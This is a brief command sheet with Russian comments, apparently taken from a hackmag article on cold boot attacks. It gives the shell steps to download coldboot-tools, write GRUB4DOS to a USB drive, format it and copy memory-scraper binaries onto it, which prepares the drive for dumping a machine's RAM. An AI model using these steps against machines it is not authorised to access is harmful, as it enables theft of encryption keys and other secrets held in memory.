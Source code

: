 # Cold Boot Attack [ориг](https://hackmag.com/security/cold-boot-attack/)



wget https://github.com/baselsayeh/coldboot-tools/releases/download/2/bios_memimage64.zip # скачиваем наш скрипт


sudo dd if=grldr.mbr of=/dev/sdb conv=notrunc   # устанавливаем GRUB4DOS на диск


sudo fdisk /dev/sdb     # создаем 1 раздел (заполнять не до конца 4-8 гб оставить)


sudo mkfs.fat /dev/sdb1 # используем простую файловую систему


sudo mount /dev/sdb1 /media/usb 


cp grldr menu_sec_part.lst scraper*.bin /media/usb/ # грузим утилиты


